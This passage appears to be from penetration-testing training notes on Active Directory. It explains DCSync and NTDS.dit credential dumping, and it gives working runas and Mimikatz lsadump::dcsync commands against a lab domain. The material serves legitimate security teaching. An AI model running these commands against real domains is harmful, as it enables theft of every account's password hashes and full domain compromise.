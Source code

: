If we check the files created using the -just-dc flag, we will see that there are three: one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with reversible encryption enabled.

### Using runas.exe
```
> runas /netonly /user:INLANEFREIGHT\adunn powershell
```

### Performing the Attack with Mimikatz
```
PS > .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

* * *

# Domain Admin
## Dump NTDS.dit
In this section, we will focus primarily on how we can extract credentials through the use of a dictionary attack against AD accounts and dumping hashes from the NTDS.dit file.

Like many of the attacks we have covered thus far, our target must be reachable over the network. This means it is highly likely that we will need to have a foothold established on the internal network to which the target is connected. That said, there are situations where an organization may be using port forwarding to forward the remote desktop protocol (3389) or other protocols used for remote access on their edge router to a system on their internal network. Please know that most methods covered in this module simulate the steps after an initial compromise, and a foothold is established on an internal network. Before we get hands-on with the attack methods, let's consider the authentication process once a Windows system has been joined to the domain. This approach will help us better understand the significance of Active Directory and the password attacks it can be susceptible to.

Once a Windows system is joined to a domain, it will no longer default to referencing the SAM database to validate logon requests. That domain-joined system will now send all authentication requests to be validated by the domain controller before allowing a user to log on. This does not mean the SAM database can no longer be used. Someone looking to log on using a local account in the SAM database can still do so by specifying the hostname of the device proceeded by the Username (Example: WS01/nameofuser) or with direct access to the device then typing ./ at the logon UI in the Username field. This is worthy of consideration because we need to be mindful of what system components are impacted by the attacks we perform. It can also give us additional avenues of attack to consider when targeting Windows desktop operating systems or Windows server operating systems with direct physical access or over a network. Keep in mind that we can also study NTDS attacks by keeping track of this technique.

* * *

## Capturing NTDS.dit
NT Directory Services (NTDS) is the directory service used with AD to find & organize network resources. Recall that NTDS.dit file is stored at %systemroot%/ntds on the domain controllers in a forest. The .dit stands for directory information tree. This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information. If this file can be captured, we could potentially compromise every account on the domain similar to the technique we covered in this module's Attacking SAM section. As we practice this technique, consider the importance of protecting AD and brainstorm a few ways to stop this attack from happening.
